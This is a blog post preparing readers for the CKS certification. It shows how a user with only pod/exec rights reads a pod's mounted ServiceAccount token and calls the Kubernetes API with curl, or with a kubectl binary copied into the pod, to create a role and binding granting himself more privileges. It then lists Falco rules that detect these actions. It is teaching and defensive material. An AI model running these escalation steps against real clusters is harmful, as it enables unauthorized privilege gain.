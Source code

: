 ```yaml
---
title: "CKS preparation - abusing ServiceAccount to grant privileges"
date: 2021-02-03T06:00:00-04:00
last_modified_at: 2021-02-04
categories:
  - certifications
tags:
  - kubernetes
  - certifications
  - cks
comments: true
---
```


In this article I will show how Kubernetes ServiceAccount can used to gain
privileges. Of course, all this information should be only used for preparation
to CKS exam.

Let's say that we have a developer John, who has limited privileged in
namespace `frontend`:
```
$ kubectl -n frontend auth can-i list pods --as john
no
$ kubectl -n frontend auth can-i create pods --as john
no
$ kubectl -n frontend auth can-i create role --as john
no
```

But for debugging purposes, he was granted with "pod/exec" role. In `frontend`
namespace there is a `service` Pod, running under `service-sa` ServiceAccount,
which has permissions to create, modify or delete roles:
```YAML
apiVersion: v1
kind: ServiceAccount
metadata:
  name: service-sa
  namespace: frontend
---
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: service-role
  namespace: frontend
rules:
- apiGroups: ["rbac.authorization.k8s.io"]
  resources: ["*"]
  verbs: ["create","update","delete"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: service-binding
  namespace: frontend
subjects:
- kind: ServiceAccount
  name: service-sa
roleRef:
  kind: Role
  name: service-role
  apiGroup: rbac.authorization.k8s.io
```

Now, let's imagine that John wants to get more permissions. To do that, he has
logged into this pod. To interact with kube-api John has to install curl(I am
using alpine in the example):
```bash
apk add curl
```

Next step will be to find serviceAccount's token and kube-api endpoint:
```bash
export TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
export ENDPOINT=$KUBERNETES_SERVICE_HOST
export NAMESPACE=frontend
```

Knowing that, he ca create a new role via [API request](https://kubernetes.io/docs/reference/kubernetes-api/authorization-resources/role-v1/#create-create-a-role):
```YAML
# Create ROLE in namespace
curl -k  https://$ENDPOINT/apis/rbac.authorization.k8s.io/v1/namespaces/frontend/roles \
	-H "Authorization: Bearer $TOKEN" \
	-X POST --header 'content-type: application/json' \
	--data '
{
    "apiVersion": "rbac.authorization.k8s.io/v1",
    "kind": "Role",
    "metadata": {
        "name": "infra-role",
        "namespace": "frontend"
    },
    "rules": [
        {
            "apiGroups": [
                "rbac.authorization.k8s.io"
            ],
            "resources": [
                "*"
            ],
            "verbs": [
                "create",
                "update",
                "delete"
            ]
        }
    ]
}'
```

and assign that role to his entity([API request](https://kubernetes.io/docs/reference/kubernetes-api/authorization-resources/role-binding-v1/#create-create-a-rolebinding)):
```YAML
# Create ROLEBINDING in namespace
curl -k  https://$ENDPOINT/apis/rbac.authorization.k8s.io/v1/namespaces/frontend/rolebindings \
	-H "Authorization: Bearer $TOKEN" \
	-X POST --header 'content-type: application/json' \
	--data '
{
    "apiVersion": "rbac.authorization.k8s.io/v1",
    "kind": "RoleBinding",
    "metadata": {
        "name": "infra-binding",
        "namespace": "frontend"
    },
    "roleRef": {
        "apiGroup": "rbac.authorization.k8s.io",
        "kind": "Role",
        "name": "infra-role"
    },
    "subjects": [
        {
            "apiGroup": "rbac.authorization.k8s.io",
            "kind": "User",
            "name": "john"
        }
    ]
}'
```

Since service account has permissions to create new roles and RoleBindings,
new permissions were granted to John:
```bash
$ kubectl -n frontend auth can-i create role --as john
yes
```

As a Cluster Administrator, it's not easy to find such activities. [Falco](https://falco.org/)
is a great tool that can monitor your cluster and report on all user actions.

It comes with a [default set of rules](https://github.com/falcosecurity/charts/blob/master/falco/rules/k8s_audit_rules.yaml),
which would generate alerts on John's actions:
```YAML
- rule: Attach/Exec Pod
  desc: >
    Detect any attempt to attach/exec to a pod
  condition: kevt_started and pod_subresource and kcreate and ka.target.subresource in (exec,attach) and not user_known_exec_pod_activities
  output: Attach/Exec to pod (user=%ka.user.name pod=%ka.target.name ns=%ka.target.namespace action=%ka.target.subresource command=%ka.uri.param[command])
  priority: NOTICE
  source: k8s_audit
  tags: [k8s]
- rule: K8s Role/Clusterrole Created
  desc: Detect any attempt to create a cluster role/role
  condition: (kactivity and kcreate and (clusterrole or role) and response_successful)
  output: K8s Cluster Role Created (user=%ka.user.name role=%ka.target.name rules=%ka.req.role.rules resp=%ka.response.code decision=%ka.auth.decision reason=%ka.auth.reason)
  priority: INFO
  source: k8s_audit
  tags: [k8s]
- rule: K8s Role/Clusterrolebinding Created
  desc: Detect any attempt to create a clusterrolebinding
  condition: (kactivity and kcreate and clusterrolebinding and response_successful)
  output: K8s Cluster Role Binding Created (user=%ka.user.name binding=%ka.target.name subjects=%ka.req.binding.subjects role=%ka.req.binding.role resp=%ka.response.code decision=%ka.auth.decision reason=%ka.auth.reason)
  priority: INFO
  source: k8s_audit
  tags: [k8s]
```

## Update

My colleague provide me with an even simpler way to do this - using kubectl
inside the cluster:

John could copy kubectl to the Pod:
```bash
$ kubectl cp $(which kubectl) pod-with-service-account:/ -n frontend
```

Once it's there, it's possible to use it to do all kind of manipulations with
kubernetes entities:
```bash
# /kubectl --namespace=frontend create role podview  --verb=get --verb=list   --resource=pods
role.rbac.authorization.k8s.io/podview created
```

If `kubectl` can't find $KUBECONFIG, it will use in-cluster configuration to work
with kube-api:
```
# /kubectl cluster-info -v=10
I0203 11:55:51.542573     193 merged_client_builder.go:121] Using in-cluster configuration
I0203 11:55:51.543028     193 merged_client_builder.go:121] Using in-cluster configuration
```

[According to documentation](https://github.com/kubernetes/client-go/blob/master/examples/in-cluster-client-configuration/README.md#authenticating-inside-the-cluster):
```
client-go uses the Service Account token mounted inside the Pod at the
/var/run/secrets/kubernetes.io/serviceaccount path when the
rest.InClusterConfig() is used.
```
